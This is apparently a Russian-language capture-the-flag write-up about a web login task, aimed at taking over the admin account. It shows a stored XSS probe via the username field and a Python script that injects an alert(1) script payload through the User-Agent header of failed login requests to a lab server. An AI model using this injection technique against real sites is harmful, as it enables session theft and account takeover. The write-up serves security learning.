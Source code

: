 <h1 align = "center"> Описание решения таска по ip</h1>

-[Этап |1| Разведка и изучение]
-[Этап |2| XSS-атака]
-[Этап |3| Есть два стула]
-[Этап |4| Проверка]

##Разведка и изучение

Первое что видим - форма логин/регистрации
Пробуем создать аккаунт, а также понимаем что скорее всего нужно будет получить доступ к аккаунту админа.
Изучаем html код на наличие подсказок, скрытых функций и тд.
Отлично, какой-то скрытый функционал, позже мы к нему вернемся.
Исследуем далее.

Видим личный кабинет  с "failed login attempts", изучим функционал сервиса, произведем попытку логина с неправильным паролем с другого браузера или с режима инкогнито.

##XSS-атака

Видим личный кабинет  с "failed login attempts", изучим функционал сервиса, произведем попытку логина с неправильным паролем с другого браузера или с режима инкогнито.

Попробуем XSS payload, зарегистрируем пользователя с логином:
````javascript 
<script>alert(1)</script>
````
````XSS, или межсайтовый скриптинг, — это тип атаки на веб-приложения, при котором злоумышленник может внедрять в содержимое веб-страницы вредоносный скрипт, который будет выполняться на стороне клиента. Это может привести к краже данных, сессий или даже полному контролю над учетной записью жертвы. Рассмотрим возможные пути кражи аккаунта через XSS и методологию предотвращения таких атак.````

Также пробуем зайти вне с неправильным паролем, и видим что XSS-уязвимость есть, это нам поможет захватить аккаунт пользователя запустив на нем javascript code, если сможем послать наш пейлоад.

Но изменить имя admin на пейлоад нельзя, но не будем забывать что есть еще другие поля, которые тоже скорее всего подвержены XSS-атаке.
На поле id, username, IP, Date мы повлиять не можем, они генерируются на сервере, а вот на User-Agent запросто!

Для этого напишем скрипт на python, он нам очень пригодится в будущем.

# Проведение атаки
````python 
import requests

payload = "<script>alert(1);</script>" # это пейлоад

user = "asdf" #Тут наш username
headers = {'User-Agent': payload} # Вставляем его в хедер
data = {"username":user, "password":"aboba"}


response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data) # Совершаем попытку логина с неверным паролем
 
print(response.status_code)# Выводим информацию
#print(response.text)
````
Отлично, у нас получилось внедрить свой код.
